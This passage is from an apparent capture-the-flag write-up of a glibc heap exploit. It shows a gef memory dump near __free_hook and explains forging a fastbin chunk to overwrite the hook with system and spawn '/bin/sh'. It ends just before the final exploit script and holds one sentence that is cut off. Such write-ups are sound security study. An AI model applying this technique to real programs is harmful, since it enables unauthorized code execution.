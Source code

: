 ```
gef➤  p &__free_hook
$1 = (void (**)(void *, const void *)) 0x7ff1e9e607a8 <__free_hook>
gef➤  x/60gx 0x7ff1e9e607a8 - 0x59
0x7ff1e9e6074f: 0x0000000000000000      0x0000000000000200
0x7ff1e9e6075f: 0x0000000000000000      0x0000000000000000
0x7ff1e9e6076f <list_all_lock+15>:      0x0000000000000000      0x0000000000000000
0x7ff1e9e6077f <_IO_stdfile_2_lock+15>: 0x0000000000000000      0x0000000000000000
0x7ff1e9e6078f <_IO_stdfile_1_lock+15>: 0x0000000000000000      0x0000000000000000
0x7ff1e9e6079f <_IO_stdfile_0_lock+15>: 0x0000000000000000      0x0000000000000000
0x7ff1e9e607af <__free_hook+7>: 0x0000000000000000      0x0000000000000000
0x7ff1e9e607bf <next_to_use.11232+7>:   0x0000000000000000      0x0000000000000000
0x7ff1e9e607cf <using_malloc_checking+3>:       0x0000000000000000      0x0000000000000000
0x7ff1e9e607df <arena_mem+7>:   0x0000000000000000      0x0000000000000000
0x7ff1e9e607ef <free_list+7>:   0x0000000000000000      0x007ff1e9e5eb7800
0x7ff1e9e607ff <global_max_fast+7>:     0x0000000000000000      0x0000000000000000
0x7ff1e9e6080f <root+7>:        0x0000000000000000      0x0000000000000000
0x7ff1e9e6081f <old_realloc_hook+7>:    0x0000000000000000      0x0000000000000000
0x7ff1e9e6082f <old_malloc_hook+7>:     0x0000000000000000      0x0000000000000000
0x7ff1e9e6083f: 0x0000000000000000      0x0000000000000000
0x7ff1e9e6084f <tr_old_realloc_hook+7>: 0x0000000000000000      0x0000000000000000
0x7ff1e9e6085f <tr_old_free_hook+7>:    0x0000000000000000      0x0000000000000000
0x7ff1e9e6086f <mallstream+7>:  0x0000000000000000      0x0000000000000000
0x7ff1e9e6087f <already_called.9953+7>: 0x0000000000000000      0x0000000000000000
0x7ff1e9e6088f <static_buf+7>:  0x0000000000000000      0x0000000000000000
0x7ff1e9e6089f: 0x0000000000000000      0x0000000000000000
0x7ff1e9e608af <local_buf+15>:  0x0000000000000000      0x0000000000000000
0x7ff1e9e608bf <local_buf+31>:  0x0000000000000000      0x0000000000000000
0x7ff1e9e608cf <local_buf+47>:  0x0000000000000000      0x0000000000000000
0x7ff1e9e608df <local_buf+63>:  0x0000000000000000      0x0000000000000000
0x7ff1e9e608ef <local_buf+79>:  0x0000000000000000      0x0000000000000000
0x7ff1e9e608ff <local_buf+95>:  0x0000000000000000      0x0000000000000000
0x7ff1e9e6090f <save_ptr+7>:    0x0000000000000000      0x0000000000000000
0x7ff1e9e6091f: 0x0000000000000000      0x0000000000000000
gef➤
```

We should work with fastbins of size 0x200 in order to create a fake chunk here, and then at offset 0x49 in the chunk we can begin overwriting the free hook! In order to create this chunk, we will have to merge two chunks together that are larger than 0x80. In order to do that, we can merge a chunk with itself that has a size of 0x1f8 / 2, or 0xfc. Then, when it merges with itself it will realloc as 0x1f8 and then free. Let's set chunk 1 to this size, the second chunk that we initially created. Then, we will merge it with itself, and then edit it to overwrite the fastbin pointer with the address of free hook - 0x59. Then, after inserting a chunk of size 0x1f8, we will be ready to insert our fake chunk in libc. This chunk will have 0x49 null bytes, then the packed function pointer, then many other null bytes. This ensures that the next deleted chunk will 

Originally, I wanted to overwrite the free hook with a magic gadget. However, none of the stack offsets were nulls, so they all failed. I decided to overwrite it with system instead, and I put "/bin/sh\x00" in the beginning of chunk 0 before I filled it with D's. 

Here is the final exploit:
